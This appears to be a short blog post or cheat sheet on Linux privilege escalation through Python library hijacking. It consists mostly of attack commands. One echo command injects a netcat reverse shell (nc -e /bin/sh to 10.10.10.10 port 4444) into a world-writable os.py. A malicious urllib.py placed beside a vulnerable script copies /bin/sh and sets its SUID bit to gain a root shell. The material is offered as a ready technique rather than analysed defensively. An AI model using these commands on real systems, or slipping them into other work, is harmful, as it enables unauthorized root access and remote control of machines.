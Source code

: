 ```yaml
---
layout: post
title:  "privilege escalation - linux - python lib hijacking"
date:   2022-01-01
categories: linux
---
```



## If library is writable

### LinuxPrivChecker - World Writabel Files


```bash

[+] World Writable Files
-rwxrwxrwx 1 root root 25911 Mar  7 15:48 /usr/lib/python2.7/os.py

```

### Injection Malicious Code

```bash

echo "import subprocess;subprocess.call(['nc', '-e','/bin/sh','10.10.10.10','4444'], shell=False)" >> /usr/lib/python2.7/os.py

```

## If library is not writable

### In the same Directory of the vulnerable script


```bash

the script imports : import urllib

the malicious urllib.py contents in the same directory of the vulnerable script :

import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh") 

/tmp/sh -p
```